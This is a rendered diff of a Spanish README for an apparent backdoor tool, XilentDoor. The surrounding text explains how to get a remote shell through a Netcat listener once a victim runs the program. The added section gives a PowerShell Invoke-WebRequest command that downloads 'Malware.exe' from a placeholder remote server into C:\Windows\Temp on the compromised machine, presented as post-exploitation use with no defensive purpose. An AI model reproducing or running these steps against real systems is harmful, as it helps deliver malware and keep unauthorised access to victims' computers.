

Before and after one commit to R3LI4NT/XilentDoor, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -74,6 +74,13 @@ En `Program.cs` ingresan su <a href="https://whatismyipaddress.com/es/mi-ip">IP
 En la máquina atacante (Kali Linux), configure Netcat para escuchar en el puerto previamente seleccionado. Si el usuario ejecuta el programa, se establecerá una conexión y obtendrá acceso a una shell remota.
 
 <img width="1365" height="720" alt="3" src="https://github.com/user-attachments/assets/79417535-c85e-4d9f-a297-42d18a99921b" />
+
+Una vez usted haya ganado acceso al equipo, podrá utilizar Powershell para ejecutar comandos. Por ejemplo, descargar archivos remotos en el equipo comprometido:
+```powershell
+powershell -Command "Invoke-WebRequest -Uri 'https://servidor-remoto/Malware.exe' -OutFile 'C:\Windows\Temp\Malware.exe'"
+```
+
+<img width="1281" height="572" alt="DownloadFile" src="https://github.com/user-attachments/assets/f9f6bdf3-3a37-4a06-9ce6-27587fd4d1f2" />
 
 <h1 align="center"></h1>
 
````
